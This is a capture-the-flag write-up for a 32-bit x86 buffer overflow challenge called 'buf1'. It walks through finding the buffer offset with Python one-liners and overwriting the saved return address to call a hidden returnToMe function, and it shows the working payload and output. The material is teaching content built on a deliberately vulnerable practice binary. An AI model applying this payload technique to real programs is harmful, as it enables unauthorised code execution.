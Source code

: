 buf1 - Another Buffer Overflow Challenge
========================================
date: 24/Feb/2014
summary: This is another buffer overflow challenge I found online. I posted a writeup on a similar challenge buf0 earlier and one for this challenge was long due. Finally today I got some time to document the solution.
tags: ctf

The binary can be obtained from here: [buf1](/static/files/posts_buf1_challenge/buf1.bin). Let's see what `file` command has to tell us about this challenge file:

```
$ file buf1.bin
buf1.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x746bc251bceb3d50b635362140ec851bf6f85317, not stripped
```

So this binary, like it's [counterpart](https://7h3ram.github.io/posts/20140106_buf0-challenge.html), is also an x86 ELF with symbols included. Let's run `strings` as well over this file:

```
$ strings buf1.bin
/lib/ld-linux.so.2
ktP=
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

There's the `gets` syscall and the `W00T!` string which confirm that this indeed is very similar to the previous challenge. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/posts_buf1_challenge/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/posts_buf1_challenge/ida-returntome.png)

Let's figure out the size of the buffer to know how many bytes would be needed to reach saved EIP:

```
$ python -c 'print "A"*40' | ./buf1.bin
$ python -c 'print "A"*50' | ./buf1.bin
$ python -c 'print "A"*60' | ./buf1.bin
$ python -c 'print "A"*70' | ./buf1.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*65' | ./buf1.bin
$ python -c 'print "A"*66' | ./buf1.bin
Illegal instruction (core dumped)
$
$ python -c 'print "A"*67' | ./buf1.bin
Segmentation fault (core dumped)
```

So, the binary accepts max 66B before `gets` overwrites saved EIP. Now we can inject the buffer with dummy input followed by the address of `returnToMe` function:

```
$ python -c 'print "A"*66 + "\x04\x84\x04\x08"' | ./buf1.bin
W00T!
Segmentation fault (core dumped)
```

Done. But this time the program didn't exit cleanly. However, the challenge was to get the `returnToMe` function called and it was done successfully. But it's not always about completing challenges. Let's take it as a learning opportunity and understand why, being so similar, both challenges exited in different manner. To understand this and other such minute intricacies of buffer overflows read my previous posts starting with: [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html).
